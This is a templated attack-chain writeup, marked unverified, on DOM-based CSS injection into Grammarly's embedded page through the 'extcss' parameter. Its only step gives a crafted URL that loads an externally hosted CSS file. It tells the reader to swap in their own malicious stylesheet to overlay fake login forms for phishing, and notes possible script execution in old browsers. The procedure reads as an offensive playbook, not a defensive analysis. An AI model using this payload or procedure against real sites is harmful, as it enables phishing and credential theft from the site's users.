

# DOM-based CSS Injection via extcss Parameter in Grammarly Embedded Page

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)
- Hosted malicious CSS file (e.g., on Dropbox or similar)

### Target Environment

- Web platform
- Grammarly embedded page at https://www.grammarly.com/embedded
- No specific services/ports required beyond HTTP/HTTPS access

### Initial Access Requirements

- Public access to the Grammarly embedded page
- Ability to host or control an external CSS file
- No credentials needed

## Detailed Attack Procedures

### Step 1: Craft and Access Malicious URL
procedure: [[procedures/Exploit-DOM-based-CSS-Injection-in-Grammarly]]

**Objective**: Load arbitrary external CSS into the Grammarly embedded page to enable visual spoofing for phishing attacks or potential JavaScript execution in older browsers.

**Instructions**: Prepare a malicious CSS file hosted externally (e.g., containing styles to overlay fake login forms or spoof elements). Then, construct the target URL by appending the extcss parameter with the malicious CSS URL. Open the URL in a web browser to trigger the injection.

For example, use a browser to navigate to the crafted URL:

```plaintext
https://www.grammarly.com/embedded?height=300&extcss=https://www.dl.dropboxusercontent.com/s/e0g51ibqswh0v7d/xss.css?dl=0
```

This URL points to a sample malicious CSS file. In a real attack, replace with your controlled CSS endpoint.

**Expected Output**: The page loads with the external CSS applied, altering the DOM visually (e.g., spoofed elements appear) without errors.

**Success Indicators**:
- External CSS styles are applied to the page (inspect DOM to confirm <link> element with your href)
- Visual spoofing elements render (e.g., fake buttons or forms overlay)
- In older browsers (e.g., IE), potential JavaScript execution via CSS expressions if present in the CSS
